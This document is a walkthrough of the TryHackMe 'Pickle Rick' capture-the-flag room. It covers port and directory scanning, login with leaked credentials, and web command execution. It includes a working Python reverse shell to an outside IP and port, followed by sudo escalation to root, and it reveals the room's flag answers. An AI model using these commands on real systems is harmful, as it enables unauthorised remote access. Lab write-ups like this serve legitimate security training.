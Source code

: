# PickleRick 

link to the room: [https://tryhackme.com/room/picklerick]

`export IP=10.10.157.6`


## Recon

### Nmap 

command: `nmap -sC -sV -v -O -oN recon/nmap`

output: 
```
- 80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
- 22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.6 (Ubuntu Linux; protocol 2.0)
```
### Gobuster 

command: `docker run -v /usr/share/dirb/wordlists:/wordlists gobuster dir -u http://$IP -w wordlist/common.txt -x php,txt,html,js,css,cgi,sh,py -t 50`

output
```
/assets               (Status: 301) [Size: 311] [--> http://10.10.157.6/assets/]
/denied.php           (Status: 302) [Size: 0] [--> /login.php]                  
/index.html           (Status: 200) [Size: 1062]                                
/index.html           (Status: 200) [Size: 1062]                                
/login.php            (Status: 200) [Size: 882]                                 
/portal.php           (Status: 302) [Size: 0] [--> /login.php]                  
/robots.txt           (Status: 200) [Size: 17]                 
```

- robots.txt : `Wubbalubbadubdub`
- source page / comment :  `Username: R1ckRul3s`

## TASK

1. What is the first ingredient Rick needs?

- in the `login.php` page we use :
    - username: R1ckRul3s
    - password: Wubbalubbadubdub
- we have access to `portal.php` page we found:  
    - base64 data: `Vm1wR1UxTnRWa2RUV0d4VFlrZFNjRlV3V2t0alJsWnlWbXQwVkUxV1duaFZNakExVkcxS1NHVkliRmhoTVhCb1ZsWmFWMVpWTVVWaGVqQT0==`
    - decoded: `rabbit hole`

- command execution:
    - `ls`
    - `tac Sup3rS3cretPickl3Ingred.txt`

Found first ingredient : mr. meeseek hair

2. Whats the second ingredient Rick needs?

- reverse shell python: 
```
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.9.2.243",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'
```
- upgrade shell:
    - `export TERM=xterm`
    - cntrl+z
    - `stty raw -echo`
    - fg & reset

Found second ingredient in `/home/second ingredients`: 1 jerry tear

3. Whats the final ingredient Rick needs?

- `sudo -l` we can run ALL command
- `sudo bash` we are root

Found 3rd ingeredient in `/root/3rd.txt`
